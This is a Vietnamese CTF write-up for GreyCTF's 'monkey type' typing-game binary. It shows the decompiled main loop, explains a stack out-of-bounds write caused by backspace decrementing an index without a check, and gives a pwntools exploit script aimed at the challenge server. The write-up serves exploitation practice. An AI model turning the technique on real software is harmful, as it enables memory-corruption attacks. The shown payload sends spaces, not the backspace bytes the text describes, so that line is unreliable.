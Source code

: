 # monkey type

## Source

<details> <summary> Source </summary>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char ch_0; // [rsp+3h] [rbp-9Dh]
  int idx; // [rsp+4h] [rbp-9Ch]
  uint64_t highscore; // [rsp+8h] [rbp-98h]
  WINDOW *mainwin; // [rsp+10h] [rbp-90h]
  timespec start; // [rsp+20h] [rbp-80h] BYREF
  timespec stop; // [rsp+30h] [rbp-70h] BYREF
  struct timespec remaining; // [rsp+40h] [rbp-60h] BYREF
  char buf[64]; // [rsp+50h] [rbp-50h] BYREF
  unsigned __int64 v13; // [rsp+98h] [rbp-8h]

  v13 = __readfsqword(0x28u);
  idx = 0;
  highscore = 0LL;
  mainwin = init();
  memset(buf, 0, sizeof(buf));
  update_cursor(0);
  nodelay(stdscr__NCURSES6_TINFO_5_0_19991023, 1);
  while ( ch_0 != 113 )
  {
    if ( highscore > 0xFFFFFFFF )
    {
      endwin();
      puts("You win! Here's the flag:");
      puts("grey{XXXXXXXXXXXXXXX}");
      exit(0);
    }
    ch_0 = wgetch(stdscr__NCURSES6_TINFO_5_0_19991023);
    if ( ch_0 != -1 )
    {
      if ( ch_0 == 0x7F )
      {
        update_text(mainwin, buf, --idx);
      }
      else if ( ch_0 > 0x1F )
      {
        if ( !idx )
          clock_gettime(0, &start);
        if ( idx <= 0x20 )
        {
          v3 = idx++;
          buf[v3] = ch_0;
          update_text(mainwin, buf, idx);
        }
        if ( !strcmp(buf, quote) )
        {
          clock_gettime(0, &stop);
          highscore = get_score(&start, &stop);
          update_highscore(mainwin, highscore);
          memset(buf, 0, sizeof(buf));
          idx = 0;
          update_text(mainwin, buf, 0);
          update_cursor(0);
        }
      }
    }
    remaining.tv_sec = 0LL;
    remaining.tv_nsec = 16666666LL;
    nanosleep(0LL, &remaining);
  }
  return 0;
}
```

</details>

## Ý tưởng

- wu tham khảo [link ở đây](https://gerrardtai.com/coding/greyctf#monkeytype)

- Đầu tiên, chương trình sẽ cho ta flag khi `highscore > 0xffffffff`
- Trong vòng lặp ta thấy chương trình đang xử lí các kí tự ta nhập vào, ở đây

```c
if ( ch_0 == 0x7F )
      {
        update_text(mainwin, buf, --idx);
      }
```

- khi `ch_0 == 0x7F` chương trình sẽ giảm idx xuống mà không kiểm tra giá trị idx có lớn hơn 0 không, chức năng update_text sẽ ghi lên stack, vậy ta có lỗi Out-of-bound

## Khai thác

```
char buf[64]; // [rsp+50h] [rbp-50h] BYREF
uint64_t highscore; // [rsp+8h] [rbp-98h]
```

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('monkeytype', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''


                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('34.124.157.94', 12321)
else:
        p = process(exe.path)

GDB()
s(b' '*0x48)    # 0x98 - 0x50
s(b'A'*5)
# output = p.recvall()
# print(output[output.index(b'flag:\n'):])
p.interactive()
```

